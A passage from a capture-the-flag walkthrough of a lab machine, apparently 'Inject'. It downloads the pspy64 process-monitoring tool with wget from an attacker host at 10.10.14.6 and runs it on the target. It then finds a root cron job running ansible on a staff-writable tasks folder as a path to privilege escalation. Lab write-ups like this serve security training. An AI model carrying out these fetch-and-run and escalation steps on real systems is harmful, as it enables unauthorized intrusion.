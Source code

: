     
    
    phil@inject:/tmp$ wget 10.10.14.6/pspy64
    --2023-03-14 01:43:58--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’
    
    pspy64              100%[===================>]   2.96M  4.14MB/s    in 0.7s
    
    2023-03-14 01:43:59 (4.14 MB/s) - ‘pspy64’ saved [3104768/3104768]
    

I’ll make it executable and run it:

    
    
    phil@inject:/tmp$ chmod +x pspy64 
    phil@inject:/tmp$ ./pspy64 
    pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
    
    
         ██▓███    ██████  ██▓███ ▓██   ██▓
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                       ░           ░ ░     
                                   ░ ░ 
    ...[snip]...
    

Every even minute there’s a flurry of activity, starting with:

    
    
    2023/03/14 01:46:01 CMD: UID=0     PID=18659  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml              
    2023/03/14 01:46:01 CMD: UID=0     PID=18658  | /usr/sbin/CRON -f
    2023/03/14 01:46:01 CMD: UID=0     PID=18657  | /usr/sbin/CRON -f
    2023/03/14 01:46:01 CMD: UID=0     PID=18656  | /usr/sbin/CRON -f                                                                   2023/03/14 01:46:01 CMD: UID=0     PID=18655  | /usr/sbin/CRON -f
    2023/03/14 01:46:01 CMD: UID=0     PID=18660  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml              2023/03/14 01:46:01 CMD: UID=0     PID=18661  | /usr/sbin/CRON -f
    2023/03/14 01:46:01 CMD: UID=0     PID=18662  | sleep 10
    

root is running `ansible-parallel` on `*.yaml` in `/opt/automation/tasks`.

#### staff

The `tasks` folder is owned by root, and writable by the staff group:

    
    
    phil@inject:/opt/automation$ ls -l
    total 4
    drwxrwxr-x 2 root staff 4096 Mar 14 01:46 tasks
    